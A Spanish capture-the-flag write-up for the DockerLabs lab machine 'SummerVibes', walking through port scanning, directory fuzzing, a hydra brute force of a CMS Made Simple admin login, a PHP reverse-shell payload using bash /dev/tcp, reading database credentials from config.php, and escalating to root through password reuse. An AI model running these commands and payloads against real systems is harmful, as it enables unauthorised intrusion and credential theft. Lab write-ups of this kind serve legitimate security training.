 # Máquina SummerVibes

Dificultad -> Difícil

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d119f1fa4816af8a4a892d7889e92d94 (ECDSA)
|_  256 b8b72e643eeec32e2ebe99074e024f16 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Echamos un vistazo a la web que corre por el puerto 80. Se trata de la web por defecto de apache. 
Revisando el código fuente encontramos un comentario que nos da una pista:

![Pasted image 20240428141237](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/09748c7a-d163-47c6-b417-a9d54638bb5b)

Si accedemos a ese directorio encontramos un gestor de contenido:

![Pasted image 20240428141316](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/2ca7cda8-8221-47da-ade7-28012a94b951)

Aplicamos **fuzzing** sobre la web con **gobuster**:

```shell
gobuster dir -u http://172.17.0.2/cmsms/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,txt,html,php.bak
-------------------------------------------------------------------------------------------------------------------------
/index.php            (Status: 200) [Size: 19671]
/modules              (Status: 301) [Size: 316] [--> http://172.17.0.2/cmsms/modules/]
/uploads              (Status: 301) [Size: 316] [--> http://172.17.0.2/cmsms/uploads/]
/doc                  (Status: 301) [Size: 312] [--> http://172.17.0.2/cmsms/doc/]    
/admin                (Status: 301) [Size: 314] [--> http://172.17.0.2/cmsms/admin/]  
/assets               (Status: 301) [Size: 315] [--> http://172.17.0.2/cmsms/assets/] 
/lib                  (Status: 301) [Size: 312] [--> http://172.17.0.2/cmsms/lib/]    
/config.php           (Status: 200) [Size: 0]                                         
/tmp                  (Status: 301) [Size: 312] [--> http://172.17.0.2/cmsms/tmp/]  
```

Encontramos directorios interesantes como **/admin**, **/uploads**, etc.
Dentro del directorio **/admin** encontramos un panel de **login**:

![Pasted image 20240428145810](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/9685e43c-aa7b-4ad5-ae06-4f8aa537c03b)

Usando **whatweb** sobre la web principal, encontramos la versión del gestor de contenido -> **CMS-Made-Simple[2.2.19]**


--------------
## Explotación


Haciendo un poco de búsqueda, vemos que hay algunas vulnerabilidades para esta versión, pero que sucede con usuarios autenticados con privilegios administrativos.

[CVE-Details](https://www.cvedetails.com/cve/CVE-2024-27622/)
![Pasted image 20240428142536](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/f1b6cad1-1b48-4abb-b45d-dfc9bdddfa32)


[Github CVE Reference](https://github.com/capture0x/CMSMadeSimple)
![Pasted image 20240428142725](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/9dec9e60-3dfa-436d-bb52-be7a7bb85ba3)

Aplicaremos fuerza bruta sobre el panel de login con **hydra**:
Para ello, analizamos la **data** que se tramita al intentar hacer login en el panel de admin que encontramos anteriormente y la usamos en hydra:

![Pasted image 20240428150255](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/cc0840e2-037c-483c-8440-91daa97ed33d)

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt "http-post-form://172.17.0.2/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect" 
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
[80][http-post-form] host: 172.17.0.2   login: admin   password: chocolate
```

Encontramos las credeciales de admin -> **admin:chocolate**
Nos logeamos.

Es el momento de volver al exploit que encontramos antes -> [Github CVE Reference](https://github.com/capture0x/CMSMadeSimple)
Seguimos los pasos.
 
 - Extensions -> User Defined Tags

![Pasted image 20240428152312](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/263f11fe-f143-41f7-ad30-58ce125c1e00)

- Add User Defined Tag -> Introducimos el Payload -> Run

![Pasted image 20240428152534](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1520cbfc-c2dd-42e7-8a7c-25da705225b6)

Tenemos **RCE** (Remote Comand Execution)

Nos ponemos en escucha con **netcat** para ganar acceso al sistema y nos enviamos una **reverse shell**:

Máquina atacante:

```shell
sudo nc -nlvp 443
```

Payload:

```php
<?php echo system('bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1" '); ?>
```

Run.

Estamos dentro !

------------------------------

Aplicamos el tratamiento de la **tty** para operar de forma cómoda.

------------
## Escalada de privilegios

```shell
ps -faux
```
![Pasted image 20240428153452](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/dcb57cae-722c-4dad-a737-1e5f44408c11)

Vemos que está corriendo una base de datos de forma interna.
Listaremos por archivos **config** para tratar de encontrar las credenciales:

```shell
find -name \*config\* 2>/dev/null
```

Abrimos el archivo -> **/var/www/html/cmsms/config.php**

```shell
cat /var/www/html/cmsms/config.php
----------------------------------------
$config['dbms'] = 'mysqli';
$config['db_hostname'] = 'localhost';
$config['db_username'] = 'cms';
$config['db_password'] = 'cms';
$config['db_name'] = 'test';
$config['db_prefix'] = 'cms_';
$config['timezone'] = 'UTC';
```

Usaremos las credenciales -> **cms:cms** para conectarnos a la base de datos.

```shell
mysql -H localhost -u cms -p
---------------------------------
ERROR 1044 (42000): Access denied for user 'cms'@'localhost' to database '172.17.0.2'
```

No nos permite conectarnos. Tras más reconocimiento del sistema, finalmente, la contraseña **chocolate** había sido reutilizada para el usuario **root**.

```shell
su root
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema.
